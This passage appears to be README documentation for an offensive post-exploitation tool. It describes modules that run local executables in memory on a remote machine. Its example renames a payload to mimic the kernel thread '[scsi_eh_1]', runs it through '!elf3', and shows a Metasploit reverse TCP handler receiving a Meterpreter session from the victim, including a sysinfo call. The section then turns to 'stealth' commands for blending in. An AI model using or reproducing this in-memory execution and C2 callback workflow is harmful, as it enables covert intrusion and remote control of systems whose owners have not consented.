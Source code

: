 ### !py3

`!py3 [local script]` does the exact same thing except for a system with python3

```
!py3 /tmp/strangeDirs.py -p /dev/shm
Path exists...continuing
HIT: /dev/shm/,.
Total Hits: 1
```

### !elf

* `!elf [local script]` Runs an executable from the local machine in memory, requires python2.7 on remote machine.

### !elf3&#x20;

* This is by far the most impressive module in my opinion.
* `!elf3 [local script]` Runs an executable from the local machine in memory, requires python3 on the remote machine.

```
#payload on neo docker 
neo@feff0b418db6:/tmp$ mv shell.elf '[scsi_eh_1]'
#on remote device 
!elf3 /tmp/meoware
100%|████████████████████████████████████████████████████████████████████████████████████████████████| 336/336 [00:00<00:00, 2.53Mo/s]
Child process PID: 9292
#get call back on C2
msf6 exploit(multi/handler) > [*] Started reverse TCP handler on 10.0.0.2:443 
[*] Sending stage (3045348 bytes) to 10.0.0.2
[*] Meterpreter session 2 opened (10.0.0.2:443 -> 10.0.0.2:53702) at 2023-08-01 21:31:47 -0400

msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 10.0.0.2
OS           : Debian  (Linux 6.1.0-kali7-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

## Stealth Commands

* I am fully aware these two modules are the opposite of "stealthy" but it is where they are currently placed until an alternative location can be worked out. This stealth category will more than likely contain commands that help you blend in better in addition to those commands that might make you stick out.
